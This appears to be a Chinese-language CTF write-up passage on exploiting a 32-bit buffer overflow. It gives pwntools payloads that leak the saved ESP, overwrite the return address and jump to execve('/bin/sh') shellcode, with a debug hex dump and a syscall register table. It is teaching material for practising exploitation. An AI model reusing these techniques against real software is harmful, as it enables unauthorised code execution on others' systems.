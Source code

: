 ## 0x03 漏洞利用

### 利用思路

现在EIP已经在我们的掌控之中了，关键是如何跳转到布置的shell code中。一般来说，首先会去找JMP ESP指令，这样就能让shellcode获得执行。但这段汇编代码没有，可以利用的只有read和write。如果可以write出Saved ESP的地址，然后覆盖掉offset _exit，就能成功shell。

1. 泄露Saved ESP

```python
    start = p.recvuntil(':')  //等待write执行完毕
    payload = 'a'*0x14 + p32(0x08048087)   //发送溢出数据，覆盖ret为0x08048087->输出14h字节
    p.send(payload)
    data = p.recv()    //接收输出数据，其中就有Saved ESP
```

debug过程：

```shell
[DEBUG] Received 0x14 bytes:
    "Let's start the CTF:"
[DEBUG] Sent 0x18 bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    00000010  61 61 61 61  87 80 04 08                            │aaaa│····││
    00000018
[DEBUG] Received 0x14 bytes:
    00000000  **20 53 81**** ff**  01 00 00 00  58 6d 81 ff  00 00 00 00  │ S··│····│Xm··│····│
    00000010  60 6d 81 ff                                         │`m··││
    00000014
```

2. 覆盖RET

此时程序已经泄露出之前的Saved_esp，栈的情况已经摸清了，然后程序继续执行read，注意read完 add esp, 14h后再ret，因此，ret_addr在esp+14h的地方。

```python
    payload = 'a'*0x14 + p32(saved_esp + 20) + shellcode
    print p32(saved_esp)
    p.send(payload)
```

3. shellcode

shellcode同样可以用系统调用的方式执行execve("/bin/sh",NULL,NULL)

|name	|eax	|ebx	|ecx	|edx	|esi	|
|---	|---	|---	|---	|---	|---	|
|[sys_execve](http://www.kernel.org/doc/man-pages/online/pages/man2/execve.2.html)	|0x0b	|char __user *	|char __user *__user *	|char __user *__user *	|[struct pt_regs](http://lxr.free-electrons.com/source/arch/alpha/include/asm/ptrace.h?v=2.6.35#L19)	|
|---	|---	|---	|---	|---	|---	|

其中，该程序是 32 位，所以我们需要使得

* 系统调用号，即 eax 应该为 0xb
* 第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
* 第二个参数，即 ecx 应该为 0
* 第三个参数，即 edx 应该为 0

